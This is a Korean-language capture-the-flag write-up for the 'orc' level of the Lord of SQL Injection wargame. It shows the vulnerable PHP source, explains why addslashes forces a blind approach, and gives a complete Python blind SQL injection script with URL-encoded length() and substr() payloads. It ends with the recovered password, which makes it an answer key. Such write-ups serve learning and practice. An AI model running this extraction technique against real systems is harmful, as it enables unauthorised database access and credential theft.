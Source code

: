 # Orc Problem

![Orc image](../image/orc_web_page.png)

### hint

주 언어로 blind sql injection script 짜야된다.

blind sql injection 을 모르면 밑의 링크로 참고하면 좋다.

+ [blind sql injection](https://github.com/kimminwyk/Study-notes/tree/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection)

mysql 사용 함수는 substr , mid , left length 등등 문자열 자르기를 사용하면 된다.

### los rubiya problem Script

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

### 핵심
```php
$_GET[pw] = addslashes($_GET[pw]); 

$query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 

if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
첫번째 쿼리를 전송하고 두번째 쿼리를 만들때

addslashes 함수를 사용하여 ' , " 같은 쿼터들로 sql injection이 불가능하기때문에

blind sql injection 으로 결과 참 거짓을 구별하고 문자열을 조합해서 pw=비밀번호 이런식으로
넣으면 된다.

<details>
<summary>Payload</summary>
<div markdown="1">

```py
import requests

Cookies = {
    'PHPSESSID':'PHPSESSID Value'
    #los.rubiya.kr 에서 로그인 인증하기위ㅣ해 추가한다.
}

for length in range(1,10):
    
    url = f'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=%27%20or%20id=%27admin%27%20and%20length(pw)={length}%23%27'

    r = requests.get(url = url,cookies = Cookies).text

    if r.find("<br><h2>Hello admin</h2>") > 0:
        print('los.rubiya.kr orc password length :',length)

string = ''
for i in range(1,9):
    for substr in range(48,123):
        url = f'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw=%27%20or%20id=%27admin%27%20and%20BINARY%20substr(pw,{i},1)=%27{chr(substr)}%27%23%27'

        r = requests.get(url = url,cookies = Cookies).text

        if r.find("<br><h2>Hello admin</h2>") > 0:
            print(chr(substr),end='')
            string += chr(substr)
            break

print('los.rubiay.kr ord Problem password :',string)
```

제일 짜기 쉬운 python 으로 blind sql injection을 구현했다.

Cookies에 있는 PHPSESSID 는 los.rubiya.kr에서 로그인 체크때문에 필수로 넣어야된다.

만약에 안넣으면 

```js
<script>location.href='../'</script>
``` 

이런식으로 응답이나와 문제에 접근이

불가능하기때문에 Cookies 추가한다음에 url 에 blind sqli 를 구현하면 된다.

password : 095a9852

```sql
?pw=095a9852
> select pw from prob_orc where id='admin' and pw='095a9852'
```

</div>
</details>